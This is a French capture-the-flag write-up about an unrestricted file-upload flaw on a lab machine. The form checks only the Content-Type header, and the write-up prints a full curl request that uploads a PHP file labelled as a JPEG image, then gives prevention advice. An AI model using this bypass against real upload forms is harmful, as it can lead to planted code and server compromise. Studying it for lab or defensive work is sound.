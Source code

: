 # Content-Type Spoofing Vulnerability

## Découverte
Page de téléchargement de fichiers vulnérable à une falsification de Content-Type.
http://10.13.248.133/index.php?page=upload

## Vulnérabilité
Faille de type **"Unrestricted File Upload"** où l'application vérifie uniquement le Content-Type sans valider le contenu réel du fichier, permettant d'uploader un fichier PHP en le faisant passer pour une image.

## Exploitation
1. Identification du formulaire de téléchargement vulnérable

2. Constatation que le site refuse le téléchargement direct de fichiers PHP
   ![Upload](../Ressources/screenshots/php_upload.png)

3. Modification du Content-Type du fichier lors de l'envoi pour contourner la protection
   ![Upload](../Ressources/screenshots/copy_request.png)

   ```bash
   curl 'http://10.13.248.133/index.php?page=upload' \
     -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynnRIVRWVHiNpj9Ho' \
     --data-raw $'------WebKitFormBoundarynnRIVRWVHiNpj9Ho\r\nContent-Disposition: form-data; name="uploaded"; filename="index.php"\r\nContent-Type: image/jpg\r\n\r\n\r\n------WebKitFormBoundarynnRIVRWVHiNpj9Ho\r\nContent-Disposition: form-data; name="Upload"\r\n\r\nUpload\r\n------WebKitFormBoundarynnRIVRWVHiNpj9Ho--\r\n'
   ```

4. Upload réussi du fichier PHP - le serveur l'accepte en pensant qu'il s'agit d'une image

5. Récupération du flag
   ![Flag obtenu](../Ressources/screenshots/flag.png)

## Impact
- Exécution de code arbitraire sur le serveur (RCE)
- Accès aux données sensibles du serveur
- Le fichier PHP peut être vide et toujours constituer une menace

## Prévention
- Valider le contenu des fichiers, pas seulement les en-têtes HTTP
- Ne jamais se fier au Content-Type envoyé par le client
- Vérifier les signatures de fichiers (magic bytes)
- Stocker les fichiers en dehors du répertoire web ou dans un emplacement non exécutable